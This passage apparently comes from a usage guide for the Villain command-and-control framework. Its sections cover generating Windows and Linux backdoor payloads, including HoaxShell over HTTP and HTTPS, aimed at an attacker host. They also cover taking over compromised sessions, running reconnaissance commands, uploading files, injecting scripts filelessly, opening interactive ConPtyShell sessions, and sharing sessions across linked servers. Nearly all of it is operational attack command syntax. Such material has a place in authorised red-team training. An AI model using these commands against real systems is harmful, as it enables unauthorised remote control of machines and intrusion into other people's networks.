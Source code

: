 ### 7.2 Payload Generation and Management

```bash
# Generate Windows PowerShell payload
Villain > generate os=windows lhost=192.168.1.100

# Generate Linux payload
Villain > generate os=linux lhost=192.168.1.100

# Generate HoaxShell payload (HTTP)
Villain > generate os=windows lhost=192.168.1.100 payload=hoaxshell

# Generate HoaxShell HTTPS payload
Villain > generate os=windows lhost=192.168.1.100 payload=hoaxshell-ssl

# List all backdoor payloads
Villain > backdoors

# List active sessions
Villain > sessions
```

### 7.3 Session Management and Interaction

```bash
# Connect to a session
Villain > shell 1

# Execute commands in pseudo-shell
shell > whoami
shell > ipconfig /all
shell > netstat -an

# Upload files via HTTP File Smuggler
shell > upload /path/to/local/file.exe

# Inject and execute scripts fileless
shell > inject /path/to/script.ps1

# Invoke ConPtyShell for fully interactive shell
Villain > conptyshell 1

# Exit without terminating sessions
Villain > flee
```

### 7.4 Collaborative Features and Sibling Servers

```bash
# Connect to another Villain instance
Villain > connect 192.168.1.200:65001

# Share sessions with connected siblings
Villain > share

# Send messages to all connected siblings
Villain > #Team message here

# List connected sibling servers
Villain > siblings

# Disconnect from sibling
Villain > disconnect 192.168.1.200
```
